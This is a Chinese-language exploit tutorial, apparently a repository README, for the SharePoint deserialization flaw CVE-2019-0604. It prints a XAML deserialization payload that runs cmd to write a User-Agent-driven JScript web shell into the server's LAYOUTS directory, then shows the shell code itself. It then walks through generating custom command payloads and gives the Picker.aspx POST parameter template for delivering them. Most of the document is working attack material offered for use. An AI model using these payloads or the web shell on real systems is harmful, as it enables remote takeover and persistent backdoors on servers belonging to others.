


#  一、解说k8gege的cve-2019-0604-exp.py

> k8gege的脚本 https://github.com/k8gege/CVE-2019-0604

老实说k8gege的py脚本有点花哨，一大堆的16进制字符串，分成 payload1,2,3, 好坏呀

python脚本远程post的payload,反序列化之后是一个xml数据体

~~~xml
<ResourceDictionary
xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
xmlns:System="clr-namespace:System;assembly=mscorlib"
xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system">
<ObjectDataProvider x:Key="LaunchCalch" ObjectType="{x:Type Diag:Process}" MethodName="Start">
    <ObjectDataProvider.MethodParameters>
		<System:String>cmd</System:String>
		<System:String>/c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" </System:String>
    </ObjectDataProvider.MethodParameters>
</ObjectDataProvider>
</ResourceDictionary>
~~~

即远程执行echo命令，向服务器SharePoint的模板layouts目录写了一个up.aspx文件

~~~shell
cmd /c echo ^&lt;%@ Page Language="Jscript" %^>^&lt;%var pwd="tom";var uastr=Request.UserAgent;if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) {var code=uastr.Replace(pwd+"===","");eval(code,"unsafe"); };%^> > "%CommonProgramFiles%\\Microsoft Shared\\Web Server Extensions\\15\\TEMPLATE\\LAYOUTS\\ua.aspx" 
~~~

生成了一个K8飞刀专用UA一句话木马.asxp，OK，shell到手

~~~asp
<%@ Page Language="Jscript" %>
<%
var pwd="tom";
var uastr=Request.UserAgent;
if (uastr.Substring(0, uastr.IndexOf("==="))== pwd) 
{
    var code=uastr.Replace(pwd+"===","");
    eval(code,"unsafe"); 
};
%>
~~~

# 二、制作自己的payload

如果想制作一个自己的payload来远程执行命令，请按这个操作步骤来

1、从 https://github.com/boxhg/CVE-2019-0604/releases 下载编译好的程序，解压运行CVE20190604Forms.exe

2、在Cmd文本框加输入命令，点击“Update XML”按钮，会将命令合并为xml

3、点击“EncodeEntity”，程序将xml字符串序列化为对象，并触发执行payload, 序列化后的字符串显示在"payload"文本框中

~~~shell
__cp087135009700370047005600d600e2004400160047001600e20035005600270067009600360056003700e2009400e600470056002700e6001600c600e2005400870007001600e60046005600460075002700160......
~~~

4、 "__cp...." 这些字符串就是payload了，复制到 cve-2019-0604-exp.py中，修改替换掉原来k8的payload，

5、向Picker.aspx提交payload时，需要附带的其它参数，可通过Burp代理工具，获取一下相关的参数，再将payload值传给 ctl00$PlaceHolderDialogBodySection$ctl05$hiddenSpanData

~~~
...

values = {
    '__REQUESTDIGEST':YOUR_REQUESTDIGEST,
    '__EVENTTARGET':'',
    '__EVENTARGUMENT':'',
    '__spPickerHasReturnValue':'',
    '__spPickerReturnValueHolder':'',
    '__VIEWSTATE':YOUR_VIEWSTATE,
    '__VIEWSTATEGENERATOR':'',
    'ctl00$PlaceHolderDialogBodySection$ctl07$queryTextBox':'',
    'ctl00$PlaceHolderDialogBodySection$ctl05$hiddenSpanData':**YOUR_PayloadData**,
    'ctl00$PlaceHolderDialogBodySection$ctl05$OriginalEntities':'<Entities />',
    'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityKey':'',
    'ctl00$PlaceHolderDialogBodySection$ctl05$HiddenEntityDisplayText':'',
    'ctl00$PlaceHolderDialogBodySection$ctl05$downlevelTextBox':'&#160;',
    '__CALLBACKID':'ctl00$PlaceHolderDialogBodySection$ctl07',
    '__CALLBACKPARAM':';#;#11;#;#;#',
    '__EVENTVALIDATION':YOUR_EVENTVALIDATION
}

data = urllib.urlencode(values)

...
~~~

5、运行py脚本, good luck!!!

#### 推荐用Burp来发送payload， 更加方便

### CVE-2019-0604相关：

https://www.thezdi.com/blog/2019/3/13/cve-2019-0604-details-of-a-microsoft-sharepoint-rce-vulnerability

https://github.com/linhlhq/CVE-2019-0604

https://github.com/k8gege/K8CScan/wiki/%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8-CVE-2019-0604-SharePoint-GetShell-Exploit

https://github.com/k8gege/CVE-2019-0604

